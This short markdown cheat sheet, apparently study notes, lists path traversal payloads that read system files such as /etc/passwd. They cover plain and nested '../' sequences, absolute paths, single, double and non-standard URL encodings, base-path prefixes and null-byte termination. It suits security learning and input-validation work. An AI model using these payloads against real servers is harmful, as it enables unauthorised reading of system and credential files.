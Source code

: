## File path traversal, Directory traversal

### Step up multiple levels

On Unix/linux `../`

On Windows both `../` and `..\`

### Absolute path
`/etc/passwd`

### Nested traversal sequences
`....//` or `....\/`

### URL decode or double decode
`..%252f..%252f..%252fetc/passwd`

URL encoding, or even double URL encoding, the `../` characters, resulting in `%2e%2e%2f` or `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also do the trick.

### Incude required base path
`/var/www/images/../../../etc/passwd`

### Null byte to terminate stirng
`../../../etc/passwd%00.png`



